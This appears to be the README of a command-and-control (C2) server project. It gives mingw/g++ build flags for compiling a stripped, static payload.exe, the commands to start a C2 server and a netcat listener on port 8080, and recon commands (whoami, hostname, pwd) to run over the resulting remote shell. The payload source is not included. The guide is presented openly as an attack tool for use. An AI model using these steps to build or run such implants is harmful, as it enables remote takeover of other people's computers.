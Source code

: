 # C2 Server

### Specify the appropriate IP address and port number.
![alt text](image/image.png)

## compile

```
Linux:
i686-w64-mingw32-g++ -std=c++11 payload.cpp -o payload.exe -s -lws2_32 -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc

Windows:
g++ -std=c++11 payload.cpp -o payload.exe -s -lws2_32 -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

# Usage

## Server
```
python3 C2_Server.py 0.0.0.0 8080

nc -lvnp 8080
```

## client

```
./payload.exe
```

### Commands

```
whoami
hostname
pwd
```